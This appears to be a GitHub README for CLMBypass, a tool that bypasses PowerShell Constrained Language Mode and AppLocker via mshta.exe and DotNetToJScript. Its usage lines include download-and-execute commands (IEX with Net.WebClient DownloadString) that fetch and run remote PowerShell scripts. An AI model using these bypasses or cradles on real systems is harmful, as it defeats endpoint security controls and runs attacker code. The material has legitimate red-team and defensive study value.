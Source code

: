 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### contents
- CLMBypass.hta **[AC]**
  - The WScript.Shell creates a new runspace
  - `payload.ps1` is downloaded and executed in FullLanguage mode
  - **Usage:** mshta.exe http://localhost/CLMBypass.hta`
<br/>
- CLMBypass.js **[AC]**
  - Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
  - **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
  - when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).
<br/>
- CLMBypass.exe **[C]**
  - Compiled as PE32 .NET Framework 4.0
  - **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`
<br/>
- Program.cs
  - C# source code for CLMBypass.dll, a little outdated for the PE
<br/>
- payload.ps1
  - payload to be run in FullLanguage mode
